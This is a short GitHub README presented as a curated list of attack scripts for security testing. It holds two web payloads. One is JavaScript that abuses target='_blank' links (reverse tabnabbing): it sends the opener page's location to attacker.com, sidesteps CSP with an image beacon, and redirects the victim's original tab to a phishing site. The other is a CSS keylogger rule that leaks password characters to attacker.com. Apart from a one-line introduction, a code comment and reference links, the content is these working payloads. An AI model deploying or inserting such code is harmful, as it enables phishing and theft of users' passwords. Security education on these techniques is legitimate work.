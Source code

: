 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener && window.opener.location) {
      // Imagine this script as a library added to an attacker official website.
      // If this site is opened by an user that clicked to an `a` element
      // with target attribute setted to '_blank', the browser will initialize an `opener` object,
      // referred to the browser window which the user came from.
      // This weakness could be used to redirect the opener window to a phishing site.

      let randomUserID = Math.random().toString().slice(2,),
        urlStartPhishing =
          `//attacker.com/new/phishing/?location=${window.opener.location}&user=${randomUserID}`,
        redirect2Phishing = () => {
          // Wait for the deployment of the phishing site.
          setTimeout(() => {
            window.opener.location =
              `https://attacker.com/${randomUserID}/${window.opener.location}`

          }, 8000)
        };

      fetch(urlStartPhishing)
        .then(response => {
          redirect2Phishing()
        })
        .catch(err => {
          // Error, maybe CSP :(

          let bypassCSP = new Image();
          bypassCSP.src = urlStartPhishing;
          redirect2Phishing()
        });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
